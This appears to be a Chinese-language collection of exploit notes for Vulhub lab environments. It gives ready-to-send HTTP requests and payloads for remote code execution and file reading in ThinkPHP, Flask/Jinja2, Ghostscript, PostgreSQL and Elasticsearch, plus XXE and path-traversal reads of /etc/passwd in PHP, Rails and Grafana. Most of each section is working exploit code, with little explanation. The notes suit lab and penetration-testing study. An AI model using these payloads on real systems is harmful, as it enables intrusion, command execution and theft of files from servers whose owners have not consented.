

# Real


- [PHP](#PHP)
    - [XXE](XXE)
    - [thinkphp](#thinkphp)
        - [ThinkPHP5-5.0.22/5.1.29-远程代码执行漏洞](#ThinkPHP5-5.0.22/5.1.29-远程代码执行漏洞)
        - [ThinkPHP-5.0.23-Rce](#ThinkPHP-5.0.23-Rce)
        - [ThinkPHP-2.x-任意代码执行漏洞](#ThinkPHP-2.x-任意代码执行漏洞)
    - [phpmyadmin](#phpmyadmin)
- [Python](#Python)
    - [Flask](#Flask)
        - [Jinja2](#Jinja2)
    - [Django](#Django)
- [Struts2](#Struts2)
    - [s2-013](#s2-013)
    - [s2-045](#s2-045)
- [Ruby](#Ruby)
    - [Rails](#Rails)
        - [CVE-2019-5418](#CVE-2019-5418)
- [PostScript](#PostScript)
    - [Ghostscript](#Ghostscript)
        - [CVE-2018-16509](#CVE-2018-16509)
- [数据库](#数据库)
    - [Postgres](#Postgres)
        - [CVE-2019-9193](#CVE-2019-9193)
- [搜索引擎](#搜索引擎)
    - [Elasticsearch](#Elasticsearch)
        - [CVE-2014-3120](#CVE-2014-3120)
        - [CVE-2015-1427](#CVE-2015-1427)
        - [CVE-2015-3337](#CVE-2015-3337)

- [Grafana](#Grafana)
    - [Grafana插件模块目录穿越漏洞](#Grafana插件模块目录穿越漏洞)


> 以下环境均来自Vulhub

https://github.com/vulhub/vulhub
## PHP

### XXE

Libxml2.9.0 以后 ，默认不解析外部实体，对于PHP版本不影响XXE的利用
`dom.php`、`SimpleXMLElement.php`、`simplexml_load_string.php`均可触发XXE漏洞

```
/dom.php
/SimpleXMLElement.php
/simplexml_load_string.php
```

```
POST /dom.php HTTP/1.1

<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<root>
<name>&xxe;</name>
</root>
```


### thinkphp

#### ThinkPHP5-5.0.22/5.1.29-远程代码执行漏洞

```
http://your-ip:8080/index.php?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=-1
```

或者工具一把梭

#### ThinkPHP-5.0.23-Rce

```bash
POST /index.php?s=captcha HTTP/1.1
Host: localhost
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 72

_method=__construct&filter[]=system&method=get&server[REQUEST_METHOD]=id
```

#### ThinkPHP-2.x-任意代码执行漏洞

```
http://your-ip:8080/index.php?s=/index/index/name/$%7B@phpinfo()%7D
```


## Python
### Flask
#### Jinja2

Flask（Jinja2） 服务端模板注入漏洞

```
http://your-ip:8000/?name=%7B%25%20for%20c%20in%20%5B%5D.__class__.__base__.__subclasses__()%20%25%7D%0A%7B%25%20if%20c.__name__%20%3D%3D%20%27catch_warnings%27%20%25%7D%0A%20%20%7B%25%20for%20b%20in%20c.__init__.__globals__.values()%20%25%7D%0A%20%20%7B%25%20if%20b.__class__%20%3D%3D%20%7B%7D.__class__%20%25%7D%0A%20%20%20%20%7B%25%20if%20%27eval%27%20in%20b.keys()%20%25%7D%0A%20%20%20%20%20%20%7B%7B%20b%5B%27eval%27%5D(%27__import__(%22os%22).popen(%22env%22).read()%27)%20%7D%7D%0A%20%20%20%20%7B%25%20endif%20%25%7D%0A%20%20%7B%25%20endif%20%25%7D%0A%20%20%7B%25%20endfor%20%25%7D%0A%7B%25%20endif%20%25%7D%0A%7B%25%20endfor%20%25%7D
```

在popen输入要执行的命令

env:打印环境变量
id:

### Django

#### 

## Struts2

### s2-013
### s2-045


## Ruby

### Rails

Ruby on Rails是一个 Web 应用程序框架,是一个相对较新的 Web 应用程序框架，构建在 Ruby 语言之上。

#### CVE-2019-5418

漏洞影响：
Ruby on Rails < 6.0.0.beta3
Ruby on Rails < 5.2.2.1
Ruby on Rails < 5.1.6.2
Ruby on Rails < 5.0.7.2

```
GET /robots HTTP/1.1
Host: your-ip:3000
Accept-Encoding: gzip, deflate
Accept: ../../../../../../../../etc/passwd{{
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
```

## PostScript

### Ghostscript
#### CVE-2018-16509

需要上传的poc.png
```
%!PS
userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%id > /tmp/success && cat /tmp/success) currentdevice putdeviceprops
```


## 数据库

### Postgres

#### CVE-2019-9193

Navicat连接数据库，数据库初始账号密码为postgres/postgres

影响版本：PostgreSQL 9.3-11.2
poc
```
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'id';
SELECT * FROM cmd_exec;
```


## 搜索引擎

### Elasticsearch

#### CVE-2014-3120

老版本ElasticSearch支持传入动态脚本（MVEL）来执行一些复杂的操作，而MVEL可执行Java代码，而且没有沙盒，所以我们可以直接执行任意代码。

首先，该漏洞需要es中至少存在一条数据，所以我们需要先创建一条数据：

```
POST /website/blog/ HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 25

{
  "name": "phithon"
}
```


执行任意代码
```
POST /_search?pretty HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 343

{
    "size": 1,
    "query": {
      "filtered": {
        "query": {
          "match_all": {
          }
        }
      }
    },
    "script_fields": {
        "command": {
            "script": "import java.io.*;new java.util.Scanner(Runtime.getRuntime().exec(\"id\").getInputStream()).useDelimiter(\"\\\\A\").next();"
        }
    }
}
```


#### CVE-2015-1427

ElasticSearch Groovy 沙盒绕过 && 代码执行漏洞（CVE-2015-1427）

由于查询时至少要求es中有一条数据，所以发送如下数据包，增加一个数据：


```
POST /website/blog/ HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 25

{
  "name": "test"
}
```


然后发送包含payload的数据包，执行任意命令：
```
POST /_search?pretty HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/text
Content-Length: 156

{"size":1, "script_fields": {"lupin":{"lang":"groovy","script": "java.lang.Math.class.forName(\"java.lang.Runtime\").getRuntime().exec(\"id\").getText()"}}}
```



#### CVE-2015-3337

在安装了具有“site”功能的插件以后，插件目录使用../即可向上跳转，导致目录穿越漏洞，可读取任意文件。没有安装任意插件的elasticsearch不受影响。

影响版本：1.4.5以下/1.5.2以下

http://node4.buuoj.cn:25305/_plugin/head/

可以看到前端的一种插件

以下不要在浏览器访问
```
GET /_plugin/head/../../../../../../../../../etc/passwd HTTP/1.1
Host: node4.buuoj.cn:25305
....
```


## Grafana

Grafana是一个开源的度量分析与可视化套件。

### Grafana插件模块目录穿越漏洞

Grafana 8.x 插件模块目录穿越漏洞

这个漏洞出现在插件模块中，这个模块支持用户访问插件目录下的文件，但因为没有对文件名进行限制，攻击者可以利用../的方式穿越目录，读取到服务器上的任意文件。

利用这个漏洞前，我们需要先获取到一个已安装的插件id，比如常见的有：

```
alertlist
cloudwatch
dashlist
elasticsearch
graph
graphite
heatmap
influxdb
mysql
opentsdb
pluginlist
postgres
prometheus
stackdriver
table
text
```

再发送如下数据包，读取任意文件（你也可以将其中的alertlist换成其他合法的插件id）：
```
GET /public/plugins/alertlist/../../../../../../../../../../../../../etc/passwd HTTP/1.1
Host: 192.168.1.112:3000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Connection: close
```


